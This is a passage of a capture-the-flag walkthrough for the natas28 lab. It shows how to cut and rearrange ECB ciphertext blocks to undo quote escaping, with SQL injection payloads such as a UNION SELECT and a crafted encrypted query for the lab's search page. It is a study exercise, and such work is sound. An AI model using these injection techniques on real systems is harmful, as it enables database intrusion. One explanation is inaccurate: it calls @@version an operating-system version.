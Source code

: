 
```text
58  
G+glEae6W/1XjA7vRm21nNyEco/c+J2TdR0Qp8dcjPJfIqcn9iVBmkZvmvU4kfmy SELECT joke from joke WHERE joke LIKE '%\' OR 1#   
9jPmsF+GYia4Y4FxErHJK/Yz5rBfhmImuGOBcRKxySv2M+awX4ZiJrhjgXESsckr AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA  
c4pf+0pFACRndRda5Za71vNN8znGntzhH2ZQu87WJwI=                     AAAAAAAA%'  
```

As you can see, our sql injection becomes pretty useless, so we need to somehow remove that backslash from the query, but still be able to run the query.

There is another file, named `task28_part_2.php`.  As you can see, we send the following string:  
```text
                                                         'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```
The whitespaces are an important part in the string. For start, let's focus on what's happening in the query with this kind of input:

```text
G+glEae6W/1XjA7vRm21nNyEco/c+J2TdR0Qp8dcjPItlMM3qTizkRB5P2zYxJsb unknown text + (" " * 10)  
1QUGiYVagiNrSbQhjFbdR9UFBomFWoIja0m0IYxW3UfpvYuWpJLWcgW7ceMY47WL (" " * 47) + "\"  
Au9R3t9kfPvogjx3sLoP4vYz5rBfhmImuGOBcRKxySv2M+awX4ZiJrhjgXESsckr "'" + (47 * "A")  
NjNpR93/Bz0TLCI5HmVRCMqM9OYQkTq645oGdhkgSlo=                     "A" + unknown text  
```
The first block contains the beginning of the query, which is unknown to us, plus 10 whitespaces. Remember, previously we had 10 "A"-s here, so our task is to simply retain the values here.
The second block is more interesting, however, because it contains our backslash. If there would be no escaping mechanism, the second block's content would be: `                                               '`, so 47 empty spaces, and a single quote. But becase the escaping mechanism is in place, it pushes down the single quote to the next block. Thanks to this, the third block contains the single quote, and 47 "A"-s. The last block contains one "A", and other unknown text. With this method, we can successfully eliminate the escaping of single quotes. Keep in mind, that since this is an ECB encrytion, we can remove,replace the blocks, since they are not dependent on the next/previous block. With this information, we need to craft a query, that we can use, find out what's happening in the server, what tables are there, what columns are there. But first, let's try to do something like this:  
```sql
UNION ALL SELECT @@version;#
```

With this command, we get the version number of the current operating system, and we use the `UNION` command, to concat the output of this command, with the jokes that the system can provide for us. We don't care about the jokes however, we just simply need to connect somehow the output of `SELECT @@version` to the output of the server's query. Let's try something like this:  
```text
                                                         '                    UNION ALL SELECT @@version;#
```


A sample query can be found for this in the file, named `task28_part_3.php`.  

The query string should be the following:  
```text
G+glEae6W/1XjA7vRm21nNyEco/c+J2TdR0Qp8dcjPItlMM3qTizkRB5P2zYxJsb  
1QUGiYVagiNrSbQhjFbdR9UFBomFWoIja0m0IYxW3UfpvYuWpJLWcgW7ceMY47WL  
2dPBxTZC+bWauLOkXKSldf9NlyXGvkIBZS0H2cm0CZCy2L+ujugTc3uskYy+0vQP  
/gPRS5ySIqJcuLn1nM88m8qM9OYQkTq645oGdhkgSlo=  
```  
After url encoding this string, and pasting it after 'http://natas28.natas.labs.overthewire.org/search.php/?query=' however, we recieve no results. But that's normal, we just have to work with this string a little bit. If you rememver, the backslash is still in there, so we need to remove is. The backslash should be in the second with, with 47 whitespaces as well.  So, after removing the '1QUGiYVagiNrSbQhjFbdR9UFBomFWoIja0m0IYxW3UfpvYuWpJLWcgW7ceMY47WL' block, and url encoding the remaning strings, you should get a query like this:  
